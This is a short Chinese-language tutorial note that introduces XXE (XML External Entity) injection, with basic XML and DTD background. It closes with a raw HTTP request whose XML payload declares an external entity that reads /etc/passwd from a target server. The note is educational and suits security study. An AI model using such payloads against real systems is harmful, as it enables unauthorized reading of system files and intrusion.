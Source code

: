 感觉以前也没怎么在意，然后技术摸底就被问起来了，仔细探究一下发现一些大型漏洞里面也都能发现XXE的影子，从XML注入到任意文件读取，到代码或者命令执行，内网端口探测，攻击内网主机等等。

## 简介
XXE全称是——XML External Entity,也就是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。一个比较经典的例子 
![注入一个XML节点，使添加了一个管理员账户](https://i.loli.net/2019/07/12/5d280db66707453328.png)

## 基础知识
- XML是一种标记语言，被无数软件项目采用
- DTD全称是The document type definition，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。
- DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。
- POST /xml.php HTTP/1.1

Host: 10.12.11.50

User-Agent: python-requests/2.18.4

Accept-Encoding: gzip, deflate

Accept: */*

Connection: close

Content-Length: 137

Content-Type: application/x-www-form-urlencoded



<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE creds [  

<!ENTITY goodies SYSTEM "file:///etc/passwd"> ]> 

<creds>&goodies;</creds>